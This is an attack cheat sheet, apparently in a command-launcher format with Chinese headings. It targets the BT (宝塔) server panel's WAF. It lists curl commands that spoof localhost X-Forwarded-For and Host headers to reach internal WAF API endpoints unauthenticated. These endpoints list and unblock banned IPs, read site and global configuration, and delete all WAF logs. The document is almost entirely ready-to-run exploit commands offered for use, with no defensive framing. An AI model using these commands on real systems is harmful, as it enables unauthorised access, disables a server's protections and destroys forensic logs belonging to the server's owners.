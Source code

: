 # 宝塔Tower

% bt waf injection
#plateform/linux #target/remote #cat/ATTACK/INJECTION

## wafAPI - 获取拉黑IP列表
```
curl 'http://<ip>/get_btwaf_drop_ip'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'
```

## wafAPI -解封指定IP
```
curl 'http://<tower_ip>/remove_btwaf_drop_ip?ip=<target_ip>'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'
```

## wafAPI - 获解封所有IP
```
curl 'http://<ip>/clean_btwaf_drop_ip'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'
```

## wafAPI - 获获取网站配置信息
```
curl 'http://<tower_ip>/get_site_status?server_name=<server_name>'  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'
```

## wafAPI - 获删除宝塔所有日志
```
curl "http://<tower_ip>/clean_btwaf_logs"  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'
```

## wafAPI - 获获取全局配置信息
```
curl "http://<ip>/get_global_status"  -H 'X-Forwarded-For: 127.0.0.1' -H 'Host: 127.0.0.251'
```
